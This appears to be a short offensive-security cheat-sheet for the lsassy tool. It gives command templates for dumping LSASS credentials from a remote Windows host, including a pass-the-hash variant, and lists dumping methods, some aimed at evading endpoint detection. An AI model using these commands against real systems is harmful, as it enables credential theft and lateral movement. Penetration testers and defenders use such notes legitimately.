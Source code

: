 ### Source
https://github.com/Hackndo/lsassy  

### Get lsas credentials from remote host
```
lsassy -d <domain> -u <user> -p <password> <rhost>
```

### Get lsas credentials from remote host using nt hash
```
lsassy -d <domain> -u <user> -H <[LM:]NT> <rhost>
```

### Dump using specific method
```
lsassy -d <domain> -u <user> -p <password> <rhost> -m <method> -vv
```

### Dumping methods
```
comsvcs
comsvcs_stealth
dllinject
dumpert
dumpertdll
edrsandblast
mirrordump
mirrordump_embedded
nanodump
ppldump
ppldump_embedded
procdump
procdump_embedded
rdrleakdiag
wer
```

